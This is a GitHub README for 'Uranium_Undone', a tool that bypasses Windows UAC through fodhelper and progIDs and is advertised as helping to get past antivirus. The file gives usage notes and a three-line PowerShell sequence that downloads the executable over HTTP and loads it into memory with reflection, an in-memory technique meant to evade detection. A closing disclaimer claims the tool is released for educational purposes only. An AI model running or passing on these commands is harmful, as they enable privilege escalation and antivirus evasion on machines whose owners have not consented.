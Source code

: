 # Uranium_Undone
uranium undone is a simple UAC bypass using fodhelper with progIDs to help get past AV. Last tested 3/15/2022.  
![image](https://user-images.githubusercontent.com/15575425/158689240-ee26005f-0b65-400c-a36f-f2400fe9f2f3.png)


## Usage 
Execute Program and then enter the command to execute as needed. Program cleans up key after execution is complete.   
Should open the program in a High INT context.  
![image](https://user-images.githubusercontent.com/15575425/158689152-0dccaf68-848d-451e-a6a1-163834382959.png)

## load in memory
1. "$data = (New-Object System.Net.WebClient).DownloadData('http://127.0.0.1:8081/Uranium_Undone.exe')"  
2. "$assem =[System.Reflection.Assembly]::Load($data)"  
3. "[Uranium_Undone.Program]::Main(" ")"  
**Double quotes on outsides of commands not needed are just for formatting**  

![image](https://user-images.githubusercontent.com/15575425/158689912-48fdac6c-eb19-4e45-98e2-2b9a1b57fc18.png)

## credit
based on Joe Helle's (The mayor) Articles https://medium.themayor.tech/utilizing-a-common-windows-binary-to-escalate-to-system-privileges-c16482cced4b

## Disclaimer
I am not responsible for actions taken by users of Uranium Undone. Uranium Undone was released solely for educational and ethical purposes.  
